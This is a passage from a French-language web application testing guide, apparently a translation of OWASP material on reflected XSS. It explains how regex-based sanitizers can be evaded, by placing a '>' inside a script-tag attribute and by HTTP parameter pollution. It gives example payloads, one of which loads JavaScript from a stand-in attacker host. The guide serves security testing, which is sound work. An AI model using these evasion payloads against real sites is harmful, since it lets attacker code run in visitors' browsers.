 Découplage de l'expression régulière ci-dessus :

1. Recherchez un `<script`
2. Recherchez un " " (espace blanc)
3. N'importe quel caractère sauf le caractère `>` pour une ou plusieurs occurrences
4. Recherchez un `src`

Ceci est utile pour filtrer des expressions comme `<script src="http://attacker/xss.js"></script>` qui est une attaque courante. Mais, dans ce cas, il est possible de contourner le nettoyage en utilisant le caractère `>` dans un attribut entre script et src, comme ceci :

```text
http://exemple/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

Cela exploitera la vulnérabilité de cross site scripting illustrée précédemment, en exécutant le code JavaScript stocké sur le serveur Web de l'attaquant comme s'il provenait du site Web de la victime, `http://exemple/`.

#### exemple 7 : pollution des paramètres HTTP (HPP)

Une autre méthode pour contourner les filtres est la pollution des paramètres HTTP, cette technique a été présentée pour la première fois par Stefano di Paola et Luca Carettoni en 2009 lors de la conférence OWASP Pologne. Voir le [Test de la pollution des paramètres HTTP] (04-Testing_for_HTTP_Parameter_Pollution.md) pour plus d'informations. Cette technique d'évasion consiste à scinder un vecteur d'attaque entre plusieurs paramètres portant le même nom. La manipulation de la valeur de chaque paramètre dépend de la façon dont chaque technologie Web analyse ces paramètres, de sorte que ce type d'évasion n'est pas toujours possible. Si l'environnement testé concatène les valeurs de tous les paramètres avec le même nom, alors un attaquant pourrait utiliser cette technique afin de contourner les mécanismes de sécurité basés sur des modèles.
Attaque régulière :

```text
http://exemple/page.php?param=<script>[...]</script>
```

Attaque utilisant HPP :

```text
http://exemple/page.php?param=<script&param=>[...]</&param=script>
```

Voir la [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) pour une liste plus détaillée des techniques d'évasion de filtre. Enfin, l'analyse des réponses peut devenir complexe. Une façon simple de le faire est d'utiliser du code qui fait apparaître une boîte de dialogue, comme dans notre exemple. Cela indique généralement qu'un attaquant pourrait exécuter du code JavaScript arbitraire de son choix dans les navigateurs des visiteurs.

### Test de la boîte grise

Les tests en boîte grise sont similaires aux tests en boîte noire. Dans les tests en boîte grise, le pen-testeur a une connaissance partielle de l'application. Dans ce cas, les informations concernant l'entrée de l'utilisateur, les contrôles de validation d'entrée et la manière dont l'entrée de l'utilisateur est restituée à l'utilisateur peuvent être connues du testeur de plume.

Si le code source est disponible (test en boîte blanche), toutes les variables reçues des utilisateurs doivent être analysées. De plus, le testeur doit analyser toutes les procédures de désinfection mises en œuvre pour décider si elles peuvent être contournées.
